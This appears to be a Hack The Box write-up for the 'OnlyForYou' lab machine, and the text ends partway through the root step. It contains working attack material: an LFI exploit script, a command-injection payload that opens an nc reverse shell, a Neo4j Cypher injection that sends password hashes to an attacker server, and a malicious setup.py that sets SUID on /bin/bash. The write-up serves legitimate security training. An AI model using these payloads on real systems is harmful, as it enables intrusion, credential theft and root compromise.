





# OnlyForYou Writeup
<figure></figure>

## Target IP-Address: 10.10.11.210

Nmap Scan:

```
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Medium]
└─$ nmap 10.10.11.210
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDX7r34pmJ6U9KrHg0/WDdrofcOXqTr13Iix+3D5ChuYwY2fmqIBlfuDo0Cz0xLnb/jaT3ODuDtmAih6unQluWw3RAf03l/tHxXfvXlWBE3I7uDu+roHQM7+hyShn+559JweJlofiYKHjaErMp33DI22BjviMrCGabALgWALCwjqaV7Dt6ogSllj+09trFFwr2xzzrqhQVMdUdljle99R41Hzle7QTl4maonlUAdd2Ok41ACIu/N2G/iE61snOmAzYXGE8X6/7eqynhkC4AaWgV8h0CwLeCCMj4giBgOo6EvyJCBgoMp/wH/90U477WiJQZrjO9vgrh2/cjLDDowpKJDrDIcDWdh0aE42JVAWuu7IDrv0oKBLGlyznE1eZsX2u1FH8EGYXkl58GrmFbyIT83HsXjF1+rapAUtG0Zi9JskF/DPy5+1HDWJShfwhLsfqMuuyEdotL4Vzw8ZWCIQ4TVXMUwFfVkvf410tIFYEUaVk5f9pVVfYvQsCULQb+/uc=
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAz/tMC3s/5jKIZRgBD078k7/6DY8NBXEE8ytGQd9DjIIvZdSpwyOzeLABxydMR79kDrMyX+vTP0VY5132jMo5w=
|   256 445f7aa377690a77789b04e09f11db80 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOqatISwZi/EOVbwqfFbhx22EEv6f+8YgmQFknTvg0wr
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

We Discover the landing URL.

<figure></figure>

Adding IP and URL to `/etc/hosts`

This is just a simple HTML Page. Lets do some directory enumeration

```
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://only4you.htb/ -w ~/Desktop/assets/SecLists/Discovery/Web-Content/subdomain-1mil.txt -H "HOST:FUZZ.only4you.htb"   -mc all -fw 6 -o ffuf/subs

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://only4you.htb/
 :: Wordlist         : FUZZ: /home/kali/Desktop/assets/SecLists/Discovery/Web-Content/subdomain-1mil.txt
 :: Header           : Host: FUZZ.only4you.htb
 :: Output file      : ffuf/subs
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 6
________________________________________________

[Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 90ms]
    * FUZZ: beta
```

Lets add the URL `beta.only4you.htb` to `/etc/hosts`

Lets look for endpoints for the `beta` subdomain.

```
┌──(kali㉿kali)-[~]
└─$ ffuf -c -u http://beta.only4you.htb/FUZZ -w /usr/share/dirb/wordlists/common.txt                                            

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://beta.only4you.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 82ms]
    * FUZZ: 

[Status: 405, Size: 683, Words: 161, Lines: 37, Duration: 77ms]
    * FUZZ: download

[Status: 200, Size: 5934, Words: 1979, Lines: 134, Duration: 74ms]
    * FUZZ: list

[Status: 200, Size: 2984, Words: 564, Lines: 69, Duration: 121ms]
    * FUZZ: resize

[Status: 200, Size: 12127, Words: 42, Lines: 43, Duration: 85ms]
    * FUZZ: source
```

Upon coming to the beta vhost. We can download the source-code of the application.

<figure></figure>

Looking & analyzing the files of the app, we find LFI Vulnerability in `/download` route of `app.py`. 

<figure></figure>

This LFI Protection looks weak, lets try to exploit.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST 'http://beta.only4you.htb/download' -d 'image=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
_laurel:x:996:996::/var/log/laurel:/bin/false
```

Let’s write a python script to automate this process and make out work easier.

```
import requests
import sys

url = 'http://beta.only4you.htb/download'
while True:
	file_to_be_retrived = input("ENTER THE FILE NAME: ")
	if file_to_be_retrived!='q' or 'quit':
		req = requests.request('POST', url,data={"image":file_to_be_retrived})
		print(req.text)
	else:
		sys.exit()
```

Now, Lets read the source-code for `only4you.htb` which would be located in `/var/www/only4you.htb/app.py`

```
ENTER THE FILE NAME: /var/www/only4you.htb/app.py
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

We can see form from the import statement, so lets read `form.py` which would also be in `/var/www/only4you.htb/form.py`
```
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
        if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
                return 0
        else:
                domain = email.split("@", 1)[1]
                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                output = result.stdout.decode('utf-8')
                if "v=spf1" not in output:
                        return 1
                else:
                        domains = []
                        ips = []
                        if "include:" in output:
                                dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                dms.pop(0)
                                for domain in dms:
                                        domains.append(domain)
                                while True:
                                        for domain in domains:
                                                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                                                output = result.stdout.decode('utf-8')
                                                if "include:" in output:
                                                        dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                                        domains.clear()
                                                        for domain in dms:
                                                                domains.append(domain)
                                                elif "ip4:" in output:
                                                        ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                                        ipaddresses.pop(0)
                                                        for i in ipaddresses:
                                                                ips.append(i)
                                                else:
                                                        pass
                                        break
                        elif "ip4" in output:
                                ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                ipaddresses.pop(0)
                                for i in ipaddresses:
                                        ips.append(i)
                        else:
                                return 1
                for i in ips:
                        if ip == i:
                                return 2
                        elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
                                return 2
                        else:
                                return 1

def sendmessage(email, subject, message, ip):
        status = issecure(email, ip)
        if status == 2:
                msg = EmailMessage()
                msg['From'] = f'{email}'
                msg['To'] = 'info@only4you.htb'
                msg['Subject'] = f'{subject}'
                msg['Message'] = f'{message}'

                smtp = smtplib.SMTP(host='localhost', port=25)
                smtp.send_message(msg)
                smtp.quit()
                return status
        elif status == 1:
                return status
        else:
                return status
```

The problem lies in this line, as we can see the domain argument is not sanitized and the shell parameter is True, with which any value that is given as domain will be interpreted by the console.
The problem lies here `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`

Lets start a local server to test it out.

## Foothold

We can get a RCE by the following request.
```
POST / HTTP/1.1
Host: only4you.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://only4you.htb
Connection: close
Referer: http://only4you.htb/
Upgrade-Insecure-Requests: 1


name=test&email=test%40website.com+|+rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+<IP>+<PORT>+>/tmp/f&subject=test&message=datest
```

And BOOM!, We have a shell now.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [localip] from (UNKNOWN) [10.10.11.210] 40208
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation

There are 2 users in the machine. `john` and `dev`, of which we don't have access to any.

```
$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1029/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
Listing ports we find 3 interesting ones, `3000` and `8001` seem to be web but `7474` surely belongs to neo4j. Using `chisel` we will perform a port forwarding.

```
# on kali
┌──(kali㉿kali)-[~/Desktop/tools/chisel]
└─$ ./chisel server -p 8888 --reverse
2023/06/19 12:49:03 server: Reverse tunnelling enabled
2023/06/19 12:49:03 server: Listening on http://0.0.0.0:8888
2023/06/19 12:50:34 server: session#1: tun: proxy#R:3000=>3000: Listening
2023/06/19 12:50:34 server: session#1: tun: proxy#R:8001=>8001: Listening
2023/06/19 12:50:34 server: session#1: tun: proxy#R:7474=>7474: Listening

----------------------------------------------------------------------------------------------------
# on victim machine
$ ./chisel client 10.10.**.**:8888 R:3000:127.0.0.1:3000 R:8001:127.0.0.1:8001 R:7474:127.0.0.1:7474
```

## Neo4J Injection

On port `8001` there was another login page.

<figure></figure>

Turns out `admin:admin` is the login credentials for the page.

<figure></figure>

There's the port for `neo4j` open on the machine, so I assumed that some kind of query injection was next. Also, we can see the Tasks on the main dashboard page to verify this.

The injection via `neo4j` seems to work via sending a HTTP requests with the output to an external server. We can first use this command to extract some information about the database and its labels.

```
POST /search HTTP/1.1
Host: 127.0.0.1:8001
Content-Length: 7
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8001
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8001/search
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=3c3dad77-8cd1-4bf4-b1fc-ecf69c98bbd6
Connection: close

search='OR+1%3d1+WITH+1+as+a+CALL+db.labels()+yield+label+LOAD+CSV+FROM+'http%3a//10.10.**.**%3a5000/%3flabel%3d'%2blabel+as+l+RETURN+0+as+_0+//
```

Since the injection is working, Lets modify it to extract user information and credentials.

```
PAYLOAD: ' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.**.**:5000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

And we finally get it.

```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 5000
Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.11.210 - - [19/Jun/2023 13:16:09] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [19/Jun/2023 13:16:09] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [19/Jun/2023 13:16:10] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [19/Jun/2023 13:16:10] "GET /?username=john HTTP/1.1" 200 -
```

These hashes can be cracked easily using `crackstation`.

<figure></figure>

We can ssh to `john` with these credentials and find the user flag!.

## Root Part

Since we have the password for the user. Lets check `sudo -l`.

```
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

<figure>

Reusing `john` ssh credentials will log in to his GOGS account.

Let’s search for some exploitation techniques.

[Here is a good example of the exploit](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

Making the following changes to `setup.py` so that it can trigger the `/bin/bash` for root.

```
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("chmod u+s /bin/bash")
    print("Hello, p0wnd!")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Lets create a new repository in the GOGS and upload the build file in the repo.

<figure></figure>
